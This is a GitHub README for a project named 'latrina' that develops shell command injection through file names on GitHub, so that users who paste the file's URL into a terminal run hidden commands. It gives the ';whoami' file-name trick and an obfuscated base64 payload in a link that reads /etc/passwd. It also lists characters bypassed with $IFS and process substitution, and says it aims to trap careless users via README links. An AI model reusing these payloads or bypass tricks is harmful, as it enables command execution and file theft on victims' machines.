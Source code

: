 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the address bar
* the url isn't sanitized

Brainlets like LTT will copy the url and eventually execute the payload,  
since they don't know about the "raw" button.  
Bypassing the rookie level will get you to this point.  
Bypassing the god-like level will get you the same,   
but on the raw content page, which is way nastier.  
create a file called ";whoami", now follow the steps above  
when its url is pasted in the terminal  
like ```wget http://localhost/;whoami```, the payload is executed  
can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php

# markdown
we can also put the link in the readme  
and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
'>'   # needed for redirection, replaced by "<"
```

# todo
rookie level:
```
'<'
```
should be pretty easy
we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. goodbase -d "bG1hbwo="

god-like level:
```
'$'
';'
```
